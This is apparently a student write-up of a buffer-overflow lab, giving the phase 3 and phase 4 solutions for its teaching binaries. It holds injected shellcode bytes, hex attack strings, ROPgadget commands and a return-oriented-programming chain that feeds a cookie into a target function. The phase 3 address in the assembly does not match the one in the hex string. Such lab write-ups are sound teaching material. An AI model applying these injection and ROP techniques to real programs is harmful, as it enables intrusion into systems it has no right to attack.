 The injection code is shown below:

```assembly
48 c7 c7 80 dc 61 55 	mov    $0x5561dc80,%rdi
68 fa 18 40 00       	pushq  $0x4018fa
c3                   	retq 
```

where `0x5561dc80` is address of cookie string, `0x4018fa` is address of touch3.

So solution of phase 3 may look like this:

```c
00000000: 48c7 c7a8 dc61 5568 fa18 4000 c361 6161 
00000010: 6161 6161 6161 6161 6161 6161 6161 6161 
00000020: 6161 6161 6161 6161 78dc 6155 0000 0000 
00000030: 3539 6239 3937 6661
```

where string form of cookie(`59b997fa`) is following return address of `getbuf`.

## Phase 4

In phase 4 and 5, we need to do same thing as phase 2, but ASLR and non-executable stack is protecting process so that we cannot use same strategy in exploit. ROP gadget is needed.

Our goal is send cookie value to `edi`. First, we can use ROPgadget search gadget instruction `pop rax`: `ROPgadget --binary rtarget  --only 'pop|nop|ret'|grep rax`

```assembly
0x0000000000402e89 : nop dword ptr [rax] ; ret
0x00000000004019ab : pop rax ; nop ; ret
```

Available instruction address is `0x4019ab`.

Then search gadget instruction `mov rdi rax`: `ROPgadget --binary rtarget  --only 'mov|nop|ret'| grep rax | grep rdi`

```assembly
0x000000000040214d : mov qword ptr [rdi + 8], rax ; ret
0x00000000004019c5 : mov rdi, rax ; nop ; ret
0x00000000004019a2 : mov rdi, rax ; ret
```

Available instruction addresses are `0x4019c5` and `0x4019a2`.

So attack string layout may be as follow:

- gadget 1
- gadget 2
- paddings
- overflowed return address to gadget1

Solution to phase 4 may look like this:

```c
00000000: 6161 6161 6161 6161 6161 6161 6161 6161 
00000010: 6161 6161 6161 6161 6161 6161 6161 6161 
00000020: 6161 6161 6161 6161 ab19 4000 0000 0000 
00000030: fa97 b959 0000 0000 a219 4000 0000 0000  
00000040: ec17 4000 0000 0000 0a 
```
